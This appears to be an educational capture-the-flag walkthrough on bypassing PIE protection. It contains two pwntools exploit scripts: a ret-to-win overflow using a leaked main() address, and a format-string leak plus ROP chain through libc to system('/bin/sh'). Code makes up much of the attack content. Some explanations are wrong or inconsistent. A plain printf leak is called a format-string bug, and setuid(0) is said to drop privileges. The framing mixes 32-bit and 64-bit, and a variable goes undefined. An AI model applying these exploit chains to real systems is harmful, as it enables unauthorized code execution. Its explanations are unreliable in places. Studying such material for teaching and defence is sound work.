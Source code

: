 ### **PIE Bypass Exploit Walkthrough (32-bit)**

In this example, we are exploiting a **Position Independent Executable (PIE)** that is vulnerable to a **buffer overflow**. The key vulnerability here is that the address of the `main()` function is leaked, allowing us to calculate the base address of the binary. From there, we can determine the address of the `win()` function and call it to bypass PIE protection.

---

### **Vulnerability Breakdown**:
1. **PIE Enabled**: PIE (Position Independent Executable) randomizes the binary's base address, making it difficult to predict the location of functions and buffers. However, a leaked address allows us to calculate the base address.
2. **Format String Vulnerability**: The `printf` function prints the address of `main()`, which we can use to determine the base address of the binary.
3. **Buffer Overflow**: The buffer overflow occurs because we can overwrite the return address of the `vuln()` function and redirect the control flow to the `win()` function.

---

### **Step-by-Step Exploitation**:

1. **Leaking the Address of `main()`**:
   - In the `vuln()` function, the address of `main()` is printed using `printf("Main Function is at: %lx\n", main);`.
   - The program then uses `gets(buffer)` to accept user input, which causes the overflow. The address of `main` is printed before this, so we can leak it and use it to determine the base address of the binary.

2. **Calculating the Binary Base**:
   - After obtaining the leaked address of `main`, we can calculate the **base address of the binary**. Since the address of `main` is known to be `elf.sym['main']` (an offset from the binary base), we can subtract this offset from the leaked address:
   
   ```python
   elf.address = main - elf.sym['main']
   ```

3. **Constructing the ROP Payload**:
   - Now that we know the binary's base address, we can calculate the address of the `win()` function using `elf.sym['win']`, which will now return the absolute address of `win()` in memory.
   - We then create a payload that fills the buffer with `A` characters (to overflow the return address) and appends the address of `win()` at the end to redirect the execution flow.

4. **Sending the Payload**:
   - Finally, we send the crafted payload to the vulnerable program, and upon execution, the program will jump to `win()`, which prints the success message `PIE bypassed! Great job :D`.

---

### **Exploit Code**:

```python
from pwn import *

# Load the binary
elf = context.binary = ELF('./vuln-32')
p = process()

# Leak the address of main()
p.recvuntil('at: ')
main = int(p.recvline(), 16)

# Calculate the base address of the binary
elf.address = main - elf.sym['main']

# Construct the payload
payload = b'A' * 32  # Buffer overflow to reach return address
payload += p32(elf.sym['win'])  # Address of the win function

# Send the payload
p.sendline(payload)

# Receive and print the output
print(p.clean().decode('latin-1'))
```

### **Explanation of Key Lines**:

1. **Leak the Address of `main()`**:
   ```python
   p.recvuntil('at: ')
   main = int(p.recvline(), 16)
   ```
   This receives the printed address of `main()` and converts it from a string to an integer (in hexadecimal format).

2. **Calculate the Base Address of the Binary**:
   ```python
   elf.address = main - elf.sym['main']
   ```
   Subtracting the offset of `main()` from the leaked address gives us the base address of the binary.

3. **Buffer Overflow to Call `win()`**:
   ```python
   payload = b'A' * 32
   payload += p32(elf.sym['win'])
   ```
   Here, we overflow the buffer with `32` `A` characters (adjusting this value based on the buffer size) and append the address of `win()` to the payload to overwrite the return address.

4. **Send the Payload**:
   ```python
   p.sendline(payload)
   ```
   This sends the payload to the vulnerable program.

---

### **Test Output**:

```bash
$ ./vuln-32
Main Function is at: 0x5655d1b9
PIE bypassed! Great job :D
```

---

### **Summary**:
This exploit demonstrates how a **leaked address of a function** (in this case, `main()`) can be used to bypass **PIE protection** in a 32-bit binary. By calculating the base address of the binary from the leaked `main()` address, we can determine the address of `win()` and exploit a buffer overflow to call it. Despite **PIE** being enabled, this vulnerability allows us to bypass the protection with a simple leak and basic buffer overflow.



## **PIE Bypass by leaking addresses**

This example demonstrates how to bypass **Position Independent Executable (PIE)** protection by leveraging a **stack buffer overflow** to leak the address of a function in the **PIE binary**. The leak is then used to determine the **PIE base address**, which is crucial for **ret2libc** exploits.

#### **Steps in the Exploit:**

1. **Leaking an Address**: The main technique is to leak the address of a function or variable from the binary. In this case, the address of the `puts` function is leaked by using a **format string vulnerability** in the `enter_name()` function. This is achieved by sending a format string `%15$p` to retrieve the 15th entry in the stack (which corresponds to the address of `puts`).

2. **Calculating PIE Base**: Once the address of `puts` is leaked, it is used to calculate the **PIE base address**. Since PIE randomizes the location of the binary, the leaked address will be offset from the base address of the binary. By subtracting the known offset of `puts` from the leaked address, we can derive the PIE base.

   ```python
   elf.address = leaked_addr - 0x1224
   ```

3. **ROP Chain Construction**: After determining the PIE base, we use **ROP (Return-Oriented Programming)** to craft an exploit. First, a **ROP chain** is created to leak the address of the `puts` function from the **Global Offset Table (GOT)**. Then, the leaked `puts` address is used to calculate the **libc base**.

4. **Subsequent ROP Payload**: With the **libc base address** determined, we can then craft another ROP chain to call the `system()` function in libc and pass the address of the string `/bin/sh` to spawn a shell.

5. **Executing the Payload**: Finally, the crafted payload is sent to the vulnerable binary, and the program will execute the `system("/bin/sh")` function, giving the attacker a **shell**.

---

### **Code Walkthrough:**

```python
# Leak the 15th address from the stack to find PIE base
io.sendlineafter(b':', '%{}$p'.format(15), 16)
io.recvuntil(b'Hello ')  # Skips to the address part
leaked_addr = int(io.recvline(), 16)  # Leaked address of puts
info("leaked_address: %#x", leaked_addr)

# Calculate the PIE base by subtracting the known offset of 'puts'
elf.address = leaked_addr - 0x1224
info("piebase: %#x", elf.address)

# Craft a ROP chain to leak the GOT entry for puts
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.vuln()  # Return to vuln() after puts leak

# Send the crafted payload
io.sendlineafter(b':P', flat({offset: rop.chain()}))
io.recvlines(2)  # Read the leak and blank line

# Retrieve and calculate libc base using the leaked GOT address of puts
got_puts = unpack(io.recv()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Craft the final ROP chain to call system("/bin/sh")
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))
io.sendline(flat({offset: rop.chain()}))

# Get a shell
io.interactive()
```

---

### **Key Concepts in the Exploit**:
1. **Format String Vulnerability**: Used to leak the address of `puts` in the stack.
2. **PIE**: The binary's base address is randomized, making direct address manipulation challenging. However, with a leak, you can calculate the base and bypass PIE.
3. **ROP (Return-Oriented Programming)**: Used to chain multiple function calls (e.g., `puts`, `system`) to perform the exploit.
4. **Libc Leak**: The address of a libc function (`puts` in this case) is used to calculate the base address of libc.
5. **Privilege Escalation**: The program uses `setuid(0)` and `setgid(0)` to drop privileges, but after bypassing PIE and leaking libc, you gain a shell.

---

### **Conclusion**:
This technique demonstrates how to bypass **PIE** protection in a 64-bit binary, use **ROP chains** to leak critical addresses, and finally escalate privileges by calling `system("/bin/sh")`. By leaking function addresses, calculating the PIE and libc base addresses, and chaining **ROP gadgets**, the attacker can execute arbitrary code and gain shell access.
